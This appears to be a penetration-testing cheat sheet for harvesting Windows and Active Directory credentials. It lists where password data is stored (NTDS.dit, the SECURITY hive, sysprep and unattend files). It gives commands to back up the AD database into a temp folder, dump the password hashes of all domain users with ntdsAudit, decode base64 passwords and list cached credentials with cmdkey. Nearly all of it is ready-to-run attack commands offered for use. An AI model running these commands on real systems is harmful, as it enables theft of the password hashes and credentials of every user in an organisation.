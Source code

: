 
# Windows Password locations:
```
HKEY_LOCAL_MACHINE\Security\Cache
C:\Windows\System32\config\SECURITY 
C:\Windows\System32\NTDS.dit
```

# Full Backup of AD in "IFM" media mode
https://twitter.com/cnotin/status/1445047314788274177/photo/1
```
ntdsutil "ac in ntds" "ifm" "create full c:\windows\temp\crashpad\x" q q
```
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753343(v=ws.11)


# Dump the password hashes of all domain users
creates 2 files a txt file with password hashes and a csv with usernames
```
ntdsAudit.exe ntds.dit -s SYSTEM -p pwddump.txt -u users.csv
```


# Credential Harvesting
## Passwords In Files:
These are common files to find Passwords/Credentials in. They might be base64-encoded. So look out for that.
```
1. c:\sysprep.inf			[Clear Text Password]
2. c:\sysprep\sysprep.xml		[Base64 Encoded Password]
3. c:\unattend.xml
4. c:\unattended.txt 
5. %WINDIR%\Panther\Unattend\Unattended.xml
6. %WINDIR%\Panther\Unattended.xml
```
### Decode BASE64 in Linux
```
echo "<BASE64-Encoded_Password>" | base64 -d 
```

## cmdkey
https://lolbas-project.github.io/lolbas/Binaries/Cmdkey/#credentials

List cached credentials
```
cmdkey /list
```
## findstr
https://lolbas-project.github.io/lolbas/Binaries/Findstr/#credentials
